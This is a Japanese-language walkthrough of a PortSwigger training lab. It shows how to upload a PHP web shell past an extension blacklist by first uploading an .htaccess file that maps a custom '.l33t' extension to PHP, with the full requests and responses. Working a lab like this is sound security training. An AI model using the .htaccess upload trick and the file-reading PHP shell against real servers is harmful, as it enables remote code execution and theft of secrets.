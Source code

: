 # 拡張機能バラックリストバイパスによる Web シェルのアップロード

以下のハッキングラボはブラックリストの構成方法に脆弱性があります  
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass

- 1. Burp Suite を起動し、Proxy タブからブラウザを立ち上げます
- 2. ブラウザからハッキングラボにアクセスします
- 3. 一般ユーザーでログインすると、アバター画像がアップロードできるのでアップロードします
- 4. 上記操作時の GET /files/avatars/<画像ファイル> HTTP/2 リクエストを Send to repeater します

* 5. シェルファイル exploit.php を作成し、アップロードを試します

```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

以下のメッセージが表示されて失敗します

```
Sorry, php files are not allowed Sorry, there was an error uploading your file.
```

- 6. 5 で送信したリクエストのレスポンスを確認すると Apache サーバからレスポンスが返ってきているように見えます

```
HTTP/2 403 Forbidden
Date: Sat, 05 Aug 2023 08:17:21 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 164

Sorry, php files are not allowed
Sorry, there was an error uploading your file.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

- 7. 5 で送ったリクエスト POST /my-account/avatar HTTP/2 を Send to repeater します

- 8. 6 のリクエストを以下のように書き換えて送信します
     [変更前]

```
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

[変更後]

```
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .l33t
```

レスポンス

```
HTTP/2 200 OK
Date: Sat, 05 Aug 2023 08:26:21 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 130

The file avatars/.htaccess has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

- 9. 6 のリクエストを以下のように書き換えて送信します
     [変更前]

```
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

[変更後]

```
Content-Disposition: form-data; name="avatar"; filename="exploit.l33t"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

- 10. GET /files/avatars/exploit.l33t HTTP/2 リクエストを送ると carlos の秘密情報が得られます

```
HTTP/2 200 OK
Date: Sat, 05 Aug 2023 08:29:28 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

l3lM3n9768M4tkPOSVyxFgSUKGmsMzft
```
